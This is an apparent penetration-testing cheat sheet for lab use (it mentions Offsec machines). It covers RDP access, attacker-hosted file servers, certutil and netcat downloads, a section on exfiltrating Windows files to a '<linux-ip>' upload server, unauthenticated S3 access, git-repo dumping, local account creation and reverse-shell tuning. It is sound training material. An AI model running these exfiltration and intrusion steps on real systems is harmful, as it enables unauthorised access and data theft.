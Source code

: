 # 🦩 General

## Connecting to RDP

```shell
# add resolution support
xfreerdp3 /u:user /p:pass /v:<ip> /dynamic-resolution
# add clipboard support
xfreerdp3 /u:user /p:pass /v:<ip> +clipboard
# add a share to easily transfer files
xfreerdp3 /u:user /p:pass /v:<ip> /drive:<name>,<path> 
```

## File Transfers

!!! warning
    Beware of reflected ports!

### HTTP Server

```shell
# simple python server
python -m http.server <port>
# simple python upload-enabled server (optional basic auth)
pip install uploadserver
python -m uploadserver --basic-auth user:pass <port>

# WebDAV server
wsgidav -H 0.0.0.0 -p 80 --auth anonymous -r .

# Apache (copy files to /var/www/html)
sudo systemctl start apache2
```

### SMB Server

```shell
impacket-smbserver -smb2support share $(pwd) 
# win 10+ Compatibility (With Authentication)
impacket-smbserver -smb2support -user test -password test share $(pwd) 
```

### Netcat

```shell
# start a listener (nc|nc.exe)
nc -lvnp <port> > received_file

# send the file
nc <ip> <port> < <file_path>
```

### Downloading files on Windows

```shell
# PowerShell
iwr -uri <uri> -outfile <filename>

# cmd
certutil -urlcache -split -f <uri> <dest>

# copy from smb share
copy \\<ip>\share\<file>

# mount share before copy. (win 10+ w/o Authentication)
net use Z: \\<ip>\share
# mount share before copy. (win 10+ w/ Authentication)
net use Z: \\<ip>\share /u:user 'pass'
```

### Exfiltrating files from Windows

```shell
# send file to python upload-enabled server
Invoke-WebRequest -Uri http://<linux-ip>:<port>/upload -Method Post -InFile C:\path\to\file
curl -F "file=@C:\path\to\file.txt" http://<linux-ip>:<port> -u user:pass

# copy to smb share
copy C:\path\to\file \\<ip>\share
```

### Downloading files on Linux

```shell
# wget and curl
wget http://<ip>:<port>/<file>
curl -O http://<ip>:<port>/<file>
```

## Git

> [git-dumper](https://github.com/arthaud/git-dumper)

```shell
# dump git repo from url
git-dumper <url>/.git ./website

# show commits on a branch
git log
# show commit details and changes
git show <commit>
```

## AWS

!!! warning ""
    Out of scope

Setup credentials if you find access keys

```shell
aws configure
```

### S3

```shell
# list public buckets without credentials
aws s3 ls s3://<bucket>/ --endpoint-url <url> --no-sign-request

# download a bucket
aws s3 cp s3://<bucket> ./

# check bucket policy
aws s3api get-bucket-policy --bucket <bucket> --endpoint-url <url> --no-sign-request

# upload a file to a bucket
aws s3 cp <file> s3://<bucket>/ --endpoint-url <url> --no-sign-request
```

## Windows

### Utils

```shell
# search for a word in a file 
Select-String -Path "sb.txt" -Pattern "password"

# enumerate permissions
icacls "<path>"
Get-ACL "<path>"

# kill a process
taskkill /F /IM chisel.exe
# or by PID
tasklist | findstr chisel.exe
taskkill /PID <PID> /F
```

### User Management

```shell
# enumerate users and groups
net user <user>
net localgroup <group>

# create local user and add it to a group
net user <user> <pass> /add
net localgroup <group> <user> /add

# change local user's password
net user <user> <newpass>
```

## Linux

### Users

```shell
useradd -u <UID> -g <group> <uname>
# switch to user
su - <username>
# without password
sudo su - <username>
# switch to root
su -
sudo su -
```

### Network Connections

```shell
# log incoming traffic on a specific port
sudo tcpdump -nvvvXi tun0 tcp port 8080

# network connections
netstat -antp # check tcp conns on all sockets
ss -ntplu # check tcp and udp listening conns

# kill connection
fuser -k <port>/tcp
fuser -k <port>/udp
kill -9 <PID>
```

### SSH

```shell
# create keys
ssh-keygen -t rsa -b 4096
```

### Misc

```shell
# reduce binary size (useful for binaries that are going to be transferred)
upx <bin_path>
```

## VPN

!!! danger
    Offsec machines and VPN are sometimes unstable.

Reduce MTU if reverse shells are not connecting back.

```shell
ifconfig tun0 mtu 1200
```
